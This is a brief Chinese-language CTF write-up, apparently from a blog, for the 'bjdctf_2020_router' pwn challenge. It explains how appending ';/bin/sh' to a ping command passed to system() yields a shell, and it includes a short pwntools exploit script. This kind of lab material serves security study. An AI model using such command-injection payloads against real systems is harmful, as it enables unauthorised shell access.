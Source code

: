 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

![image-20240102134312184](../assets/img/old_imgs/image-20240102134312184.png)

- `pwntools`使用
- `linux`系统下命令执行

1. 关键点在`case1`的这个`system`函数执行上,`dest`中是`ping`命令
2. 我们在`system`执行函数时,加上`;`那么前后两个命令都会执行
3. 所以我们拼接`strcat`中加上`;/bin/sh`就可以得到`shell`

```python
from pwn import *
io = process('./bjdctf_2020_router')
io.sendlineafter(b'Please input u choose:',b'1')
io.sendline(';/bin/sh')
io.interactive()
```

~~实话说有点水~~